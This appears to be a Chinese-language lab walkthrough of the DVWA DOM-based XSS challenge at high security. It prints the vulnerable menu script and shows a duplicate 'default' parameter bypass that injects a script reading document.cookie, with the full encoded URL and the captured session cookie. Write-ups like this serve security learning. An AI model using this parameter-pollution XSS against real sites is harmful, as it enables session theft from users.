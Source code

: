 # DOM Based Cross Site Scripting (XSS)

> The developer is now white listing only the allowed languages, you must find a way to run your code without it going to the server.


使用之前在中等難度的解法也 ok

```
default=English&<script>alert(document.cookie)</script>
```

### 觀察

不過這次也有找到新的方式執行 javascript

先來看一下處理選單的 javascript

```bash
<form name="XSS" method="GET">
  <select name="default">
    <script>
      if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(
          document.location.href.indexOf("default=") + 8
        ); // English
        document.write(
          "<option value='" + lang + "'>" + decodeURI(lang) + "</option>"
        );
        document.write("<option value='' disabled='disabled'>----</option>");
      }

      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
    </script>
  </select>
  <input type="submit" value="Select" />
</form>

```
可以發現它先透過 `indexOf` 來擷取 URL 上字串 `default=` 的字串開頭位置 (45)

將它傳給 `location.href.substring` 就可以切除字串取想要的部分，也就是指定語言的部分

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68aec075-de28-4bd1-8c0b-6f1cf09e5234/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051803Z&X-Amz-Expires=86400&X-Amz-Signature=61e8f23b61705cb0cda96927ccd37ace93fcf4c8ecf999d3b921d3ca981f949d&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

那我們也許可以試著新增一個同樣的參數來捏照合法參數 🤔

這樣一來後端可能就會只檢查其中一個參數

在原本的 `?default=English` 之前再塞入一個 `?default=English2`

```bash
?default=English2&default=English
```

```bash
http://dvwa.localtest/vulnerabilities/xss_d/?default=English2&default=English
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/44d2d4d6-1c24-4671-b6f4-daad8bd605ab/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051829Z&X-Amz-Expires=86400&X-Amz-Signature=db6440f5782ac8c6df2533a5dbaabc5b0c24886d4646c61f1247ffad4cc15a27&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

👉 成功，代表後端會檢查最後一個參數，而前端的 indexOf 則是指擷取碰到的第一個參數

```
?default=English<script>alert(document.cookie)</script>&default=English
```

```
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(document.cookie)%3C/script%3E&default=English
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3f6aa90d-f14c-4fac-9633-ce91e7b9d649/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051859Z&X-Amz-Expires=86400&X-Amz-Signature=2841d536a7e25c38ac15613e70b4bda0831c2fffcfe7b98cd832e5e021b58302&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=ov64qqshkod7693old2kdk59e3; security=high
```
